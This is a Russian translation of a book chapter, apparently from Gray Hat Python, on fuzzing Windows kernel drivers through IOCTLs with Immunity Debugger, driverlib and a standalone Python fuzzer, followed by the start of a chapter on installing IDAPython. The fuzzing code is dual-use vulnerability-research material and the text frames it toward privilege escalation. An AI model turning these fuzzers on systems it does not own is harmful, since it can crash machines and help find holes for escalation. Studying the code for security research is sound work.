Атаковать драйверы Windows становится привычным делом для баг-хантеров и разработчиков эксплойтов. Хотя, за прошлые несколько лет, были некоторые удаленные атаки на драйверы, более распространенны локальные атаки, которые нацелены на повышение привилегий в скомпрометированной системе. В предыдущей главе, мы использовали Sulley для поиска переполнения буфера в WarFTPD. То, чего мы не знали об этом демоне, так это то, что он был запущен пользователем с ограниченными правами. Если бы нам нужно было атаковать этот север, то в конечном итоге у нас были бы только ограниченные права, которые в некоторых случаях сильно мешают тому, какую информацию мы можем украсть или к каким сервисам мы можем получить доступ на скомпрометированной системе. Если бы мы знали, что в системе есть драйвер уязвимый к переполнению буфера [1] или другим атакам [2], мы могли бы использовать его, как средство получения системных привилегий и иметь свободный доступ к системе и всей вкусной информации на ней.

Для того, чтобы взаимодействовать с драйвером, нам нужен переход из пользовательского режима в режим ядра. Делается это, путем передачи информации драйверу, используя управляющие коды ввода/вывода «Input/Output Controls (IOCTLs)», которые являются специальными шлюзами позволяющими приложениям и сервисам пользовательского режима получать доступ к устройствам и компонентам режима ядра. Как и с любыми средствами передачи информации от одного приложения другому, мы можем использовать не безопасные реализации обработчиков IOCTL, чтобы получить повышение привилегий или полностью обрушить целевую систему.

Сначала мы рассмотрим, как соединиться с локальным устройством, которое поддерживает IOCTL, а также рассмотрим вопрос отправки IOCTL кодов устройству. Затем рассмотрим использование отладчика Immunity Debugger для изменения (mutate) IOCTL-кодов до их отправки драйверу. Далее мы воспользуемся встроенной библиотекой статического анализа отладчика, driverlib, чтобы получить более подробную информацию о целевом драйвере. Мы также заглянем под капот driverlib и научимся расшифровывать важные управляющие потоки, имена устройств и IOCTL-коды из скомпилированного файла драйвера. И под конец, используем результаты из driverlib, чтобы создать тесты-кейсы для автономного драйвер-фаззера. Давайте начнем.


10.1 Взаимодействие с драйвером

Почти каждый драйвер, в Windows, регистрируется в операционной системе с определенным именем и символьной ссылкой, которая позволяет режиму пользователя получить дескриптор к драйверу так, чтобы он мог общаться с ним. Мы используем вызов CreateFileW [3], экспортируемый из kernel32.dll, чтобы получить этот дескриптор. Прототип функции выглядит следующим образом:
Код:
%% HANDLE WINAPI CreateFileW(
%%     LPCTSTR lpFileName,
%%     DWORD dwDesiredAccess,
%%     DWORD dwShareMode,
%%     LPSECURITY_ATTRIBUTES lpSecurityAttributes,
%%     DWORD dwCreationDisposition,
%%     DWORD dwFlagsAndAttributes,
%%     HANDLE hTemplateFile
%% );
Первым параметром является имя файла или устройства, для которых мы хотим получить дескриптор; это будет значение символьной ссылки, которую экспортирует наш драйвер. Параметр dwDesiredAccess определяет тип доступа к устройству (чтение, запись или то и другое); для наших целей мы хотели бы иметь доступ GENERIC\_READ (0x80000000) и GENERIC\_WRITE (0x40000000). Мы установим параметр dwShareMode в нуль, что означает, что к устройству нельзя получить доступ, пока мы не закроем дескриптор, возвращаемый из CreateFileW. Мы также установим параметр lpSecurityAttributes в NULL, что означает, что дескриптор безопасности по умолчанию применяется к дескриптору и не может быть унаследован никакими дочерними процессами, которые мы можем создать. Параметр dwCreationDisposition установим в OPEN\_EXISTING (0x3),что означает, что мы будем открывать устройство, только если оно существует, в противном случае CreateFileW не будет работать. Последние два параметра мы установим в нуль и NULL, соответственно. 

Как только был получен действительный дескриптор от вызова CreateFireW, мы можем использовать его, чтобы передать IOCTL устройству. Для отправки IOCTL будем использовать вызов DeviceIoControl [4] , который экспортируется из kernel32.dll. Он имеет следующий прототип:
Код:
%% BOOL WINAPI DeviceIoControl(
%%     HANDLE hDevice,
%%     DWORD dwIoControlCode,
%%     LPVOID lpInBuffer,
%%     DWORD nInBufferSize,
%%     LPVOID lpOutBuffer,
%%     DWORD nOutBufferSize,
%%     LPDWORD lpBytesReturned,
%%     LPOVERLAPPED lpOverlapped
%% );
Первым параметром является дескриптор, который возвращает вызов CreateFileW. Параметр dwIoControlCode это IOCTL-код, который будет передаваться драйверу устройства. Этот код определит, какие действия должен предпринять драйвер, сразу после обработки нашего IOCTL-запроса. Следующий параметр lpInBuffer является указателем на буфер, который содержит информацию, которую мы передает драйверу устройства. Этот буфер представляет наибольший интерес для нас, поскольку мы будем фаззить (изменять) все его содержимое, прежде чем передать его драйверу. Параметр nInBufferSize это просто число, которое сообщает драйверу размер буфера, который мы передаем ему. Параметры lpOutBuffer и lpOutBufferSize идентичны предыдущим двум параметрам, но используются для передачи информации из драйвера в user mode. Параметр lpBytesReturned это дополнительное значение, которое говорит нам, сколько данных было возвращено нашим вызовом. Последний параметр lpOverlapped мы просто установим в NULL.

Теперь, когда у нас есть базовая информация о взаимодействии режима пользователя с драйверами устройств, давайте, используем отладчик Immunty Debugger, чтобы перехватить (hook) вызовы DeviceIoControl и изменить входящий буфер до того, как передать его целевому драйверу. 


10.2 Фаззинг драйвера с помощью Immunity Debugger

Мы можем использовать Immunity Debugger для перехвата вызовов DeviceIoControl прежде, чем они достигнут тестируемого драйвера. Мы напишем простую команду PyCommand, которая будет перехватывать все вызовы DeviceIoControl, изменять (mutate) входящий буфер, сохранять всю необходимую информацию на диск и отдавать управление обратно целевому приложению. Мы будем сохранять информацию на диск, потому что успешное выполнение фаззинга, при работе с драйверами, определенно приведет к крашу системы; поэтому мы хотим иметь историю тест-кейсов нашего последнего фаззинга, до обрушения системы, чтобы мы могли воспроизвести результаты снова.

ПРЕДУПРЕЖДЕНИЕ: Убедитесь, что фаззинг проводится на тестовой машине! Успешный фаззинг, выполненный над драйвером, приведет к легендарному «Синему экрану смерти», это означает, что система обрушится и перезагрузится. Вы были предупреждены! Лучше выполнять эту операцию на виртуальной машине.
Давайте перейдем к коду! Откройте новый Python-файл, назовите его ioctl\_fuzzer.py и введите следующий код:

ioctl\_fuzzer.py
Код:
%% import struct
%% import random
%% from immlib import *

%% class ioctl_hook( LogBpHook ):
    
%%     def __init__( self ):
%%         self.imm = Debugger()
%%         self.logfile = "C:\ioctl_log.txt"
%%         LogBpHook.__init__( self )

%%     def run( self, regs ):
%%         """
%%         We use the following offsets from the ESP register to trap the arguments to DeviceIoControl:
%%         ESP+4 -> hDevice
%%         ESP+8 -> IoControlCode
%%         ESP+C -> InBuffer
%%         ESP+10 -> InBufferSize
%%         ESP+14 -> OutBuffer
%%         ESP+18 -> OutBufferSize
%%         ESP+1C -> pBytesReturned
%%         ESP+20 -> pOverlapped
%%         """
%%         in_buf = ""

%%         # read the IOCTL code 
%%          (#1): ioctl_code = self.imm.readLong( regs['ESP'] + 8 )
        
%%         # read out the InBufferSize
%%          (#2): inbuffer_size = self.imm.readLong( regs['ESP'] + 0x10 )
        
%%         # now we find the buffer in memory to mutate
%%          (#3): inbuffer_ptr = self.imm.readLong( regs['ESP'] + 0xC )
        
%%         # grab the original buffer
%%         in_buffer = self.imm.readMemory( inbuffer_ptr, inbuffer_size )
%%          (#4): mutated_buffer = self.mutate( inbuffer_size )
        
%%         # write the mutated buffer into memory
%%          (#5): self.imm.writeMemory( inbuffer_ptr, mutated_buffer )
        
%%         # save the test case to file
%%          (#6): self.save_test_case( ioctl_code, inbuffer_size, in_buffer, mutated_buffer )

%%     def mutate( self, inbuffer_size ):

%%         counter = 0
%%         mutated_buffer = ""

%%         # We are simply going to mutate the buffer with random bytes
%%         while counter < inbuffer_size:
%%             mutated_buffer += struct.pack( "H", random.randint(0, 255) )[0]
%%             counter += 1

%%         return mutated_buffer

%%     def save_test_case( self, ioctl_code,inbuffer_size, in_buffer, mutated_buffer ):

%%         message = "*****\n"
%%         message += "IOCTL Code: 0x%08x\n" % ioctl_code
%%         message += "Buffer Size: %d\n" % inbuffer_size
%%         message += "Original Buffer: %s\n" % in_buffer
%%         message += "Mutated Buffer: %s\n" % mutated_buffer.encode("HEX")
%%         message += "*****\n\n"

%%         fd = open( self.logfile, "a" )
%%         fd.write( message )
%%         fd.close()

%% def main(args):

%%     imm = Debugger()

%%     deviceiocontrol = imm.getAddress( "kernel32.DeviceIoControl" )

%%     ioctl_hooker = ioctl_hook()
%%     ioctl_hooker.add( "%08x" % deviceiocontrol, deviceiocontrol )

%%     return "[*] IOCTL Fuzzer Ready for Action!"
Мы не будем рассматривать уже известные нам приемы и функции Immunity Debugger; LogBpHook – был рассмотрен в Главе 5. Тут мы просто перехватываем IOCTL-код, который передается драйверу (\#1), длину входящего буфера (\#2) и указатель на входящий буфер (\#3). Затем создаем буфер, состоящий из случайных байтов (\#4), но той же длины, что и оригинальный буфер. Затем перезаписываем оригинальный буфер – нашим видоизмененным буфером (\#5), после чего сохраняем наш тест-кейс в log-файл (\#6) и возвращаем управление программе режима пользователя. 

После того, как вы написали код, убедитесь, что файл ioctl\_fuzzer.py находится в директории PyCommnads отладчика Immunity Debugger. Далее вам нужно выбрать жертву – любую программу, которая использует IOCTL для общения с драйвером (например, снифер пакетов, фаервол или антивирусная программа будут идеальными целями). Запустите жертву в отладчике и выполните команду PyCommand – ioctl\_fuzzer. Возобновите отладчик и начнется фаззинг! Листинг 10-1 показывает некоторые зарегистрированные тест-кейсы, выполненные во время фаззинга, против программы Wireshark [5], которая является снифером сетевых пакетов. 

Листинг 10-1: Фаззинг выполненный против Wireshark
Код:
%% *****
%% IOCTL Code:      0x00120003
%% Buffer Size:     36
%% Original Buffer:
%% 000000000000000000010000000100000000000000000000000000000000000000000000
%% Mutated Buffer:
%% a4100338ff334753457078100f78bde62cdc872747482a51375db5aa2255c46e838a2289
%% *****
%% *****
%% IOCTL Code:      0x00001ef0
%% Buffer Size:     4
%% Original Buffer: 28010000
%% Mutated Buffer:  ab12d7e6
%% *****
Вы можете видеть, что мы обнаружили два поддерживаемых IOCTL кода (0x0012003 и 0x00001ef0) и сильно изменили входящие буферы, которые были отправлены драйверу. Можно продолжать взаимодействовать с программой режима пользователя, продолжая изменять входящие буферы и надеяться, в какой-то момент, вызвать сбой в драйвере! 

Хотя в использовании это простая и легкая методика, она все же имеет свои ограничения. Например, мы не знаем имени устройства, которое мы фаззим (хотя, мы могли бы перехватить CreateFileW и подсмотреть его, сопоставив возвращаемый дескриптор, с дескриптором используемым в DeviceIoControl – оставляю это вам в качестве упражнения), и мы знаем только те IOCTL-коды, которые были перехвачены во время фаззинга, а это значит, что мы можем пропустить некоторые тест-кейсы. Кроме того, было бы намного лучше, если бы мы могли продолжать фаззинг до момента пока бы нам это не надоело или мы не нашли уязвимость. 

В следующем разделе мы узнаем, как использовать инструмент статического анализа driverlib, который поставляется вместе с Immunity Debugger. Используя driverlib, можно перечислить имена всех возможных устройств, которые предоставляет драйвер, так же как и все IOCTL-коды, которые он поддерживает. Опираясь на эти данные, мы сможем создать очень эффективный автономный генерирующий фаззер, который можно оставить работающим на неопределенное время и который не требует взаимодействия с программой режима пользователя. Давайте приступим к делу!


10.3 Driverlib— Инструмент статического анализа для драйверов

Driverlib – это библиотека Python, предназначенная для автоматизации некоторых нудных задач реверсинга, которые требуют обнаружения ключевой информации из драйвера. Обычно для того, чтобы определить какие имена устройств и IOCTL-коды использует драйвер, нужно загрузить исследуемый драйвер в IDA Pro или Immunity Debugger и вручную найти интересующую информацию, пройдясь по дизассемблерному коду. Мы рассмотрим немного кода из библиотеки driverlib, чтобы понять, как она автоматизирует этот процесс, а затем воспользуемся ею, чтобы предоставить IOCTL-коды и имена устройств для нашего драйвер-фаззера. Давайте вначале рассмотрим код driverlib.

10.3.1 Обнаружение имен устройств

Использовать мощную встроенную библиотеку Python отладчика Immunity Debugger, чтобы найти имена устройств внутри драйвера достаточно просто. Взгляните на Листинг 10-2, это код из driverlib, который отвечает за обнаружение имен устройства.

Листинг 10-2: Процедура обнаружения имени устройства из driverlib
Код:
%% def getDeviceNames( self ):

%%     string_list = self.imm.getReferencedStrings( self.module.getCodebase() )

%%     for entry in string_list:

%%         if "\\Device\\" in entry[2]:
%%             self.imm.log( "Possible match at address: 0x%08x" % entry[0], address = entry[0] )

%%             self.deviceNames.append( entry[2].split("\"")[1] )

%%     self.imm.log("Possible device names: %s" % self.deviceNames)

%%     return self.deviceNames
Этот код просто получает список всех строк из драйвера, а затем перебирает его, ища строку «\\Device\\», которая возможно является той строкой, которую драйвер будет использовать для регистрации символической ссылки, чтобы программа режима пользователя могла получить его дескриптор. Для проверки этого утверждения, попробуйте загрузить драйвер «C:\\WINDOWS\\System32\\beep.sys» в Immunity Debugger. После того, как он будет загружен, используйте PyShell отладчика и введите следующий код:
Код:
%% *** Immunity Debugger Python Shell v0.1 ***
%% Immlib instanciated as 'imm' PyObject
%% READY.
%% >>> import driverlib
%% >>> driver = driverlib.Driver()
%% >>> driver.getDeviceNames()
%% ['\\Device\\Beep']
%% >>>
Вы видите, что мы обнаружили действительное имя устройства «\\Device\\Beep», используя для этого всего три строки кода, без необходимости просмотра таблицы строк или прокручивания строки за строкой дизассемблерного листинга. Теперь давайте перейдем к обнаружению основной функции обрабатывающей IOCTL-коды и непосредственно к обнаружению самих IOCTL-кодов, которые поддерживает драйвер. 

10.3.2 Поиск процедуры обработки IOCTL-кодов (IOCTL Dispatch Routine)

Любой драйвер, который реализует интерфейс IOCTL, должен иметь процедуру обработки IOCTL-кодов, которая обрабатывает различные IOCTL-запросы. Когда драйвер загружается, первой функцией, которая получает управление – является DriverEntry. Скелет, процедуры DriverEntry, для драйвера, который поддерживает обработку IOCTL-кодов, показан в Листинге 10-3:

Листинг 10-3: Исходный код простой процедуры DriverEntry
Код:
%% NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING RegistryPath)
%% {
%%         UNICODE_STRING uDeviceName;
%%         UNICODE_STRING uDeviceSymlink;
%%         PDEVICE_OBJECT gDeviceObject;

%%         RtlInitUnicodeString( &uDeviceName, L"\\Device\\GrayHat" );
%%         RtlInitUnicodeString( &uDeviceSymlink, L"\\DosDevices\\GrayHat" );

%%         // Register the device
%%         IoCreateDevice( DriverObject, 0, &uDeviceName, FILE_DEVICE_NETWORK, 0, FALSE, &gDeviceObject );

%%         // We access the driver through its symlink
%%         IoCreateSymbolicLink(&uDeviceSymlink, &uDeviceName);

%%         // Setup function pointers
%%         DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = IOCTLDispatch;

%%         DriverObject->DriverUnload = DriverUnloadCallback;

%%         DriverObject->MajorFunction[IRP_MJ_CREATE] = DriverCreateCloseCallback;

%%         DriverObject->MajorFunction[IRP_MJ_CLOSE] = DriverCreateCloseCallback;


%%         return STATUS_SUCCESS;
%% }
Это очень простая процедура DriverEntry, но она дает вам понимание того, как производят инициализацию большинство устройств. 
Код:
%% DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = IOCTLDispatch
Эта строка говорит драйверу, что функция «IOCTLDispatch» будет обрабатывать все IOCTL-запросы. Когда драйвер скомпилирован, эта строка C-кода будет преобразована в следующую псевдо-ассемблерную строку: 
Код:
%% mov dword ptr [REG+70h], CONSTANT
Вы будите видеть очень специфический набор инструкций, где массив MajorFunction (REG в ассемблерном коде) будет ссылаться на смещение 0x70, а указатель на функцию (CONSTANT в ассемблерном коде) будет храниться рядом. Используя эти инструкции, мы можем определить, где размещена процедура обработки IOCTL-кодов, и это именно то место, где мы можем начать поиски различных IOCTL-кодов. Поиск этой функции обработки осуществляется библиотекой driverlib с использованием кода из Листинга 10-4. 

Листинг 10-4: Функция поиска процедуры обработки IOCTL-кодов (если имеется)
Код:
%% def getIOCTLDispatch( self ):
%%     search_pattern = "MOV DWORD PTR [R32+70],CONST"

%%     dispatch_address = self.imm.searchCommandsOnModule( self.module.getCodebase(), search_pattern )

%%     # We have to weed out some possible bad matches
%%     for address in dispatch_address:

%%         instruction = self.imm.disasm( address[0] )

%%         if "MOV DWORD PTR" in instruction.getResult():
%%             if "+70" in instruction.getResult():
%%                 self.IOCTLDispatchFunctionAddress = instruction.getImmConst()
%%                 self.IOCTLDispatchFunction = self.imm.getFunction( self.IOCTLDispatchFunctionAddress )
%%                 break

%%     # return a Function object if successful
%%     return self.IOCTLDispatchFunction
Этот код опирается на мощное API поиска отладчика Immunity Debugger, чтобы найти все возможные совпадения, соответствующие нашим критериям поиска. После того, как найдено совпадение, мы возвращаем объект функции, который предоставляет процедуру обработки IOCTL-кодов, нашей ищейке, которая начнет поиск допустимых IOCTL-кодов.

Теперь давайте непосредственно посмотрим на процедуру обработки IOCTL-кодов и рассмотрим некоторые простые эвристики, чтобы попытаться найти все IOCTL-коды, которые поддерживает устройство. 

10.3.3 Определение поддерживаемых IOCTL-кодов

Процедура обработки IOCTL, обычно выполняет различные действия, в зависимости от значения кода, которое в нее было предано. Мы хотим иметь возможность определить все возможные IOCTL-коды, поэтому пойдем на все трудности, чтобы найти их значения. Давайте сначала рассмотрим, как будет выглядеть исходный код на языке С, для скелета процедуры обработки IOCTL-кодов. После этого мы будем видеть, как декодировать блок, чтобы получить значения IOCTL-кодов. Листинг 10-5 показывает типичную процедуру обработки IOCTL-кодов.

Листинг 10-5: Упрощенная процедура обработки IOCTL, поддерживающая три IOCTL-кода (0x1337, 0x1338, 0x1339)
Код:
%% NTSTATUS IOCTLDispatch( IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp )
%% {
%%         ULONG FunctionCode;
%%         PIO_STACK_LOCATION IrpSp;

%%         // Setup code to get the request initialized
%%         IrpSp = IoGetCurrentIrpStackLocation(Irp);
%%          (#1): FunctionCode = IrpSp->Parameters.DeviceIoControl.IoControlCode;

%%         // Once the IOCTL code has been determined, perform a
%%         // specific action

%%          (#2): switch(FunctionCode)
%%         {
%%                 case 0x1337:
%%                         // ... Perform action A
%%                 case 0x1338:
%%                         // ... Perform action B
%%                 case 0x1339:
%%                         // ... Perform action C
%%         }

%%         Irp->IoStatus.Status = STATUS_SUCCESS;
%%         IoCompleteRequest( Irp, IO_NO_INCREMENT );

        
%%         return STATUS_SUCCESS;
%% }
Как только IOCTL-код был получен (\#1), то довольно часто можно видеть оператор «switch {}» на месте (\#2), чтобы определить какое действие должен выполнить драйвер, основываясь на полученном значение IOCTL-кода. Существует несколько различных способов преобразования этого кода в ассемблерный блок; взгляните на Листинг 10-6 в качестве примера.

Листинг 10-6: Пара дизассемблерных интерпретаций оператора switch{}
Код:
%% // Series of CMP statements against a constant
%% CMP DWORD PTR SS:[EBP-48], 1339    # Test for 0x1339
%% JE 0xSOMEADDRESS                   # Jump to 0x1339 action
%% CMP DWORD PTR SS:[EBP-48], 1338    # Test for 0x1338
%% JE 0xSOMEADDRESS
%% CMP DWORD PTR SS:[EBP-48], 1337    # Test for 0x1337
%% JE 0xSOMEADDRESS

%% // Series of SUB instructions decrementing the IOCTL code
%% MOV ESI, DWORD PTR DS:[ESI + C]    # Store the IOCTL code in ESI
%% SUB ESI, 1337                      # Test for 0x1337
%% JE 0xSOMEADDRESS                   # Jump to 0x1337 action
%% SUB ESI, 1                         # Test for 0x1338
%% JE 0xSOMEADDRESS                   # Jump to 0x1338 action
%% SUB ESI, 1                         # Test for 0x1339
%% JE 0xSOMEADDRESS                   # Jump to 0x1339 action
Может быть много способов, которыми оператор «switch{}», может быть преобразован в ассемблерный код, но существует два наиболее распространенных, которые я встречал. В первом случае, где мы видим ряд инструкций CMP, просто ищем константу, которая сравнивается с передаваемым IOCTL-кодом. Эта константа должна быть действительным IOCTL-кодом, который поддерживает драйвер. Во втором случае, мы ищем серию инструкций SUB, сопровождаемых некоторым типом условных инструкций JMP. Ключевым в этом случая является нахождение начальной оригинальной константы. 
Код:
%% SUB ESI, 1337
Эта строка говорит нам, что самым наименьшим поддерживаемым IOCTL-кодом является 0x1337. Исходя из этого, значение, эквивалентное сумме каждой последующей инструкции SUB, которое мы видим, мы добавляем к нашей основной константе, тем самым получая остальные IOCTL-коды. Взгляните на хорошо прокомментированный код функции getIOCTLCodes() внутри "Libs\\driverlib.py" вашей директории установки Immunity Debugger. Она автоматически проходит через процедуру обработки IOCTL-кодов и определяет, какие IOCTL-коды, поддерживает тестируемый драйвер; вы можете видеть некоторые из этих эвристик в действии! 

Теперь, когда мы знаем, как driverlib делает часть нашей грязной работы, давайте воспользуемся ее услугами! Мы будем использовать driverlib, чтобы вытянуть имена устройств и поддерживаемые IOCTL-коды из драйвера и сохраним полученные результаты с помощью модуля Python pickle [6]. Затем напишем IOCTL-фаззер, который будет использовать результаты из pickle-файла, для фаззинга различных IOCTL-кодов, которые поддерживает драйвер. Это не только увеличит покрытие исследуемого драйвера, но и позволит фаззеру работать в течении неопределенного времени. Помимо этого, для проведения фаззинга, нам не нужно взаимодействовать с программой режима пользователя. Давайте приступим к фаззингу.

10.4 Создание драйвер-фаззера

Первый шаг заключается в создании нашего IOCTL-дампера, который будет выполнен в виде PyCommand, для запуска его в Immunity Debugger. Откройте новый Python файл, назовите его и ioctl\_dump.py и введите следующий код:

ioctl\_dump.py
Код:
%% import pickle
%% import driverlib
%% from immlib import *

%% def main( args ):
%%     ioctl_list = []
%%     device_list = []

%%     imm = Debugger()
%%     driver = driverlib.Driver()

%%     # Grab the list of IOCTL codes and device names
%%      (#1): ioctl_list = driver.getIOCTLCodes()
%%     if not len(ioctl_list):
%%         return "[*] ERROR! Couldn't find any IOCTL codes."

%%      (#2): device_list = driver.getDeviceNames()
%%     if not len(device_list):
%%         return "[*] ERROR! Couldn't find any device names."

%%     # Now create a keyed dictionary and pickle it to a file
%%      (#3): master_list = {}
%%     master_list["ioctl_list"] = ioctl_list
%%     master_list["device_list"] = device_list

%%     filename = "%s.fuzz" % imm.getDebuggedName()
%%     fd = open( filename, "wb" )

%%      (#4): pickle.dump( master_list, fd )
%%     fd.close()

%%     return "[*] SUCCESS! Saved IOCTL codes and device names to %s" % filename
Эта PyCommand довольно проста: она получает список IOCTL-кодов (\#1), список имен устройств (\#2), помещает обоих в словарь (\#3) и сохраняет словарь в файл (\#4). Просто загрузите тестируемый драйвер в Immunity Debugger и запустите PyCommand следующим образом: 
Код:
%% !ioctl_dump
Pickle-файл будет сохранен в директории Immunity Debugger.

Теперь, когда у нас есть список имен устройств и набор IOCTL-кодов, давайте напишем простой фаззер использующий их! Важно знать, что этот фаззер ищет только багги связанные с повреждением и переполнением памяти, но он может быть легко расширен, чтобы иметь более широкое покрытие других классов ошибок. 

Откройте новый Python файл, назовите его my\_ioctl\_fuzzer.py и введите следующий код.

my\_ioctl\_fuzzer.py
Код:
%% import pickle
%% import sys
%% import random

%% from ctypes import *

%% kernel32 = windll.kernel32

%% # Defines for Win32 API Calls
%% GENERIC_READ = 0x80000000
%% GENERIC_WRITE = 0x40000000
%% OPEN_EXISTING = 0x3

%% (#1): # Open the pickle and retrieve the dictionary
%% fd = open(sys.argv[1], "rb")
%% master_list = pickle.load(fd)
%% ioctl_list = master_list["ioctl_list"]
%% device_list = master_list["device_list"]
%% fd.close()

%% # Now test that we can retrieve valid handles to all
%% # device names, any that don't pass we remove from our test cases
%% valid_devices = []

%% (#2): for device_name in device_list:

%%     # Make sure the device is accessed properly
%%     device_file = u"\\\\.\\%s" % device_name.split("\\")[::-1][0]

%%     print "[*] Testing for device: %s" % device_file

%%     driver_handle = kernel32.CreateFileW(device_file,GENERIC_READ|GENERIC_WRITE,0,None,OPEN_EXISTING,0,None)

%%     if driver_handle:

%%         print "[*] Success! %s is a valid device!"

%%         if device_file not in valid_devices:
%%             valid_devices.append( device_file )

%%             kernel32.CloseHandle( driver_handle )
%%         else:
%%             print "[*] Failed! %s NOT a valid device."

%% if not len(valid_devices):
%%     print "[*] No valid devices found. Exiting..."
%%     sys.exit(0)

%% # Now let's begin feeding the driver test cases until we can't bear
%% # it anymore! CTRL-C to exit the loop and stop fuzzing
%% while 1:

%%     # Open the log file first
%%     fd = open("my_ioctl_fuzzer.log","a")

%%     # Pick a random device name
%%      (#3): current_device = valid_devices[random.randint(0, len(valid_devices)-1 )]
%%     fd.write("[*] Fuzzing: %s\n" % current_device)

%%     # Pick a random IOCTL code
%%      (#4): current_ioctl = ioctl_list[random.randint(0, len(ioctl_list)-1)]
%%     fd.write("[*] With IOCTL: 0x%08x\n" % current_ioctl)

%%     # Choose a random length
%%      (#5): current_length = random.randint(0, 10000)
%%     fd.write("[*] Buffer length: %d\n" % current_length)

%%     # Let's test with a buffer of repeating As
%%     # Feel free to create your own test cases here
%%     in_buffer = "A" * current_length

%%     # Give the IOCTL run an out_buffer
%%     out_buf = (c_char * current_length)()
%%     bytes_returned = c_ulong(current_length)

%%     # Obtain a handle
%%     driver_handle = kernel32.CreateFileW(device_file, GENERIC_READ|GENERIC_WRITE,0,None,OPEN_EXISTING,0,None)

%%     fd.write("!!FUZZ!!\n")
%%     # Run the test case
%%     kernel32.DeviceIoControl( driver_handle, current_ioctl, in_buffer,
%%                                                 current_length, byref(out_buf),
%%                                                 current_length, byref(bytes_returned),
%%                                                 None )

%%     fd.write( "[*] Test case finished. %d bytes returned.\n\n" % bytes_returned.value )

%%     # Close the handle and carry on!
%%     kernel32.CloseHandle( driver_handle )
%%     fd.close()
Мы начинаем с распаковки словаря IOCTL-кодов и имен устройств из pickle-файла (\#1). Затем проверяем, что мы можем получить дескрипторы ко всем устройствам в списке (\#2). Если мы не можем получить дескриптор конкретного устройства, то удаляем его из списка. Затем просто выбираем случайное устройство (\#3), случайный IOCTL-код (\#4) и создаем буфер случайно длины (\#5). После чего отправляем IOCTL-код драйверу и переходим к следующему тест-кейсу.

Чтобы использовать фаззер, просто передайте ему путь к файлу с тест-кейсами и дайте ему поработать! Примером может быть следующая команда:
Код:
%% C:\>python.exe my_ioctl_fuzzer.py i2omgmt.sys.fuzz
Если ваш фаззер действительно обрушит машину, то будет довольно очевидно, какой IOCTL-код вызвал сбой, потому что ваш log-файл покажет вам последний выполненный IOCTL-код. Листинг 10-7 показывает некоторый вывод, в качестве успешного примера фаззинга против неназванного драйвера.

Листинг 10-7: Результаты успешного фаззинга отображенные в логах
Код:
%% (*) Fuzzing: \\.\unnamed
%% (*) With IOCTL: 0x84002019
%% (*) Buffer length: 3277
%% !!FUZZ!!
%% (*) Test case finished. 3277 bytes returned.

%% (*) Fuzzing: \\.\unnamed
%% (*) With IOCTL: 0x84002020
%% (*) Buffer length: 2137
%% !!FUZZ!!
%% (*) Test case finished. 1 bytes returned.

%% (*) Fuzzing: \\.\unnamed
%% (*) With IOCTL: 0x84002016
%% (*) Buffer length: 1097
%% !!FUZZ!!
%% (*) Test case finished. 1097 bytes returned.

%% (*) Fuzzing: \\.\unnamed
%% (*) With IOCTL: 0x8400201c
%% (*) Buffer length: 9366
%% !!FUZZ!!
Очевидно, что последний IOCTL-код (0x8400201c) вызвал сбой, потому что мы не видим никаких дальнейших записей в log-файл. Я надеюсь, что вы имели такую же большую удачу, во время фаззинга драйвера, что и я! Это очень простой фаззер; не стесняйтесь расширять тест-кейсы – всегда, когда считаете это нужным. Возможным улучшением, могла бы быть передача буфера случайного размера, но с установленным параметром InBufferLength или OutBufferLength какой-нибудь другой длины, отличающегося от действительного размера буфера который вы передаете. Пойдите и уничтожьте все драйверы на своем пути!


© Translated by Prosper-H from r0 Crew


[1] See Kostya Kortchinsky, “Exploiting Kernel Pool Overflows” (2008):
http://immunityinc.com/downloads/KernelPool.odp

[2] See Justin Seitz, “I2OMGMT Driver Impersonation Attack” (2008):
http://immunityinc.com/downloads/Dri...ck\_i2omgmt.pdf

[3] See the MSDN CreateFile Function:
http://msdn.microsoft.com/en-us/library/aa363858.aspx

[4] See MSDN DeviceIoControl Function:
http://msdn.microsoft.com/en-us/libr...16(VS.85).aspx

[5] To download Wireshark go to:
http://www.wireshark.org/

[6] For more information on Python pickles, see:
http://www.python.org/doc/2.1/lib/module-pickle.html

\chapter{IDAPython}

IDA Pro [1] – это дизассемблер, который долгое время остается самым мощным инструментом статического анализа. Произведенный компанией Hex-Rays SA [2], во главе с ее легендарным главным архитектором Ильфаком Гильфановым, IDA Pro содержит множество аналитических возможностей. Она может анализировать бинарные файлы для большинства имеющихся архитектур, работать на различных платформах и имеет встроенный отладчик. Наряду со своими основными возможностями, IDA Pro имеет свой собственный скриптовый язык IDC, а так же SDK предоставляющее разработчикам полный доступ к IDA Plugin API.

В 2004 году, используя открытую архитектуру IDA, Gergely Erdélyi и Ero Carrera выпустили IDAPython, плагин который предоставляет реверс инженерам полный доступ к скриптовому ядру IDC, IDA Plugin API и всем стандартным модулям, поставляемым вместе с Python. Что позволяет разрабатывать мощные скрипты, для выполнения задач автоматического анализа в IDA, используя чистый Python. IDAPython используется как в коммерческих продуктах, таких как BinNavi [3], так и в открытых проектах, таких как PaiMei [4] и PyEmu (который рассмотрен в Главе 12).

В начале этой главы мы рассмотрим шаги по установке IDAPython на IDA Pro 5.2. Далее мы рассмотрим некоторые наиболее часто используемые функции, предоставляемые IDAPython. Под конец завершим главу написанием нескольких скриптов, позволяющих ускорить некоторые общие задачи реверс инженера, с которыми ему приходится часто сталкиваться. 


11.1 Установка IDAPython

Для установки IDAPython вначале нужно загрузить установочные файлы, используйте для этого следующую ссылку:
http://idapython.googlecode.com/file...thon-1.0.0.zip.
После того как вы скачали zip-архив, разархивируйте его в любую директорию. Внутри распакованной директории вы увидите папку plugins, которая будет содержать файл python.plw. Вам нужно скопировать python.plw в папку plugins IDA Pro, при установке по умолчанию она будет расположена в "C\\Program Files\\IDA\\plugins". Далее, из разархивированной директории IDAPython, скопируйте папку python в родительский каталог IDA, который при установке по умолчанию будет следующим "C:\\Program Files\\IDA". 

Чтобы убедиться в корректной установке – просто загрузите любой исполняемый файл в IDA, как только она закончит свой автоматический анализ, вы увидите вывод, в нижней панели IDA, показывающий успешную установку IDAPython. Вывод в панели IDA Pro должен выглядеть так, как показано на Рис. 11-1.




Рис. 11-1: Вывод панели IDA Pro отображающий успешную установку IDAPython

Теперь, когда IDAPython успешно установлен, в меню File IDA Pro появилось две дополнительные опции (Рис. 11-2).


Рис. 11-2: Меню File после установки IDAPython

